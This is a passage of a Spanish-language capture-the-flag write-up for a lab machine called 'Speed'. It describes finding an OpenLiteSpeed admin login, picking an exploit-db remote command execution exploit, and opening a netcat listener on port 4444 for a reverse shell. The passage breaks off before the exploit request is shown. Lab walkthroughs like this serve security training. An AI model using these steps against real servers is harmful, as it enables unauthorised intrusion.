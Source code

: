 ![OpenLiteSpeed7080](/assets/img/imgs/speed/OpenLiteSpeed7080.png)

Esto sí es algo más interesante. Estamos ante un panel login, para ser más concreto, el panel de login **`admin`**.

Por desgracia no disponemos de credenciales válidas para poder entrar, por lo que tendremos que guardarlo en nuestra mente.


# Movimiento Lateral
### Shell
Tras hacer una búsqueda nos encontramos con varios resultados, uno de ellos es un [**`exploit`**](https://www.exploit-db.com/exploits/47204) para la versión **`3.2.1`**.

Aunque este [**`exploit`**](https://www.exploit-db.com/exploits/47204) sea para una versión anterior vamos a probarlo de igual manera, con algo de suerte puede seguir funcionando.

Dado que este [**`exploit`**](https://www.exploit-db.com/exploits/47204) nos permite ejecutar comandos de forma remota, estableceremos una **`Reverse Shell`**. Para ello tendremos que ponernos en escucha con **`NetCat`**, en mi caso será por el puerto **`4444`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Speed]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Una vez nos hayamos puesto en escucha podemos pasar al siguiente paso, para ello nos vamos a dirigir a la siguiente **`URL`**:

> En vuestro caso deberéis cambiar la IP a la vuestra de atacante.
{: .prompt-warning }

